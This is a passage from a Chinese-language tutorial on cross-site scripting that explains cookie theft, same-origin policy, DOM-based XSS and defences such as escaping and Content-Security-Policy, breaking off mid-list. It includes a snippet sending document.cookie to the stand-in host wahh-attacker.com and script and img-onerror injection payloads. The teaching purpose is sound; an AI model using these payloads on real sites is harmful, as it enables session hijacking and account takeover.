 ```js
var i=new Image;
i.src="http://wahh-attacker.com/"+document.cookie
```

这段代码可让用户浏览器向wahh-attacker.com（攻击者拥有的一个域）提出一个请求。请求中包含用户访问应用程序的当前会话令牌

攻击者监控访问wahh-attacker.com的请求并收到用户的请求。攻击者使用截获的令牌劫持用户的会话，从而访问该用户的个人信息，并"代表"该用户执行任意操作

浏览器不允许任何旧有脚本访问一个站点的cookie，否则，会话就很容易被劫持。而且，只有发布cookie的站点能够访问这些cookie： 仅在返回发布站点的HTTP请求中提交cookie；只有通过该站点返回的页面所包含或加载的JavaScript才能访问cookie。因此，如果 wahh-attacker.com上的一段脚本查询 document. cookie，它将无法获得wahh-app.com发布的cookie，劫持攻击也不会成功。

利用XSS漏洞的攻击之所以取得成功，是因为攻击者的恶意JavaScript是由wahh-app.com送交给它的。和从wahh-app.com收到的任何 JavaScript一样，浏览器执行这段脚本，因为用户信任wahh-app.com。这也就是为何攻击的脚本能够访问wahh-app.com发布的 cookie的原因，虽然它实际来自其他地方。这也是为何该漏洞被称作跨站点脚本的原因

一个域的页面可从另一个域加载一段脚本，并在自己的域内执行这段脚本。这是因为脚本被假定包含代码而非数据，因此跨域访问并不会泄露任何敏感信息。如上所述，在某些情况下，这种假设被违反了，从而导致跨域攻击。

一个域的页面不能读取或修改属于另一个域的cookie或其他DOM数据（如上例所述）。

**3）DOM 型 XSS 的攻击步骤：**

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. ⽤户打开带有恶意代码的 URL。
3. ⽤户浏览器接收到响应后解析执⾏，前端 JavaScript 取出 URL 中的恶意代码并执⾏。
4. 恶意代码窃取⽤户数据并发送到攻击者的⽹站，或者冒充⽤户的⾏为，调⽤⽬标⽹站接⼝执⾏攻击者指定的操作。

基于`DOM`的型`XSS`漏洞类似于反射型`XSS`，但其变化多端，总之一句话，各种姿势，各种插，只要能执行我的`Js` ，利用`<script>`、`<img>`等标签允许跨域请求资源。
经典案例是可以将标签写入到软件的意见反馈中，当管理员查看留言的反馈即触发`XSS`，传递`cookie`与后台管理地址后就可以登录到后台了。

```js
<script scr="js_url"></script>
<img src=1 onerror=appendChild(createElement('script')).src='js_url' />
```



DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执⾏恶意代码由浏览器端完成，属于前端JavaScript ⾃身的安全漏洞，⽽其他两种 XSS 都属于服务端的安全漏洞。

可以看到XSS危害如此之大， 那么在开发网站时就要做好防御措施，具体措施如下：

- 可以从浏览器的执行来进行预防，一种是使用纯前端的方式，不用服务器端拼接后返回（不使用服务端渲染）。另一种是对需要插入到 HTML 中的代码做好充分的转义。对于 DOM 型的攻击，主要是前端脚本的不可靠而造成的，对于数据获取渲染和字符串拼接的时候应该对可能出现的恶意代码情况进行判断。
- 使用 CSP ，CSP 的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行，从而防止恶意代码的注入攻击。

> 1. CSP 指的是内容安全策略，它的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截由浏览器自己来实现。
> 2. 通常有两种方式来开启 CSP，一种是设置 HTTP 首部中的 Content-Security-Policy，一种是设置 meta 标签的方式

设置 `HTTP Header` 中的 `Content-Security-Policy`

设置 `meta` 标签的方式 `<meta http-equiv="Content-Security-Policy">`

设置 `HTTP Header` 来举例

**只允许加载本站资源**

```js
Content-Security-Policy: default-src ‘self’ 
```

**只允许加载 HTTPS 协议图片**
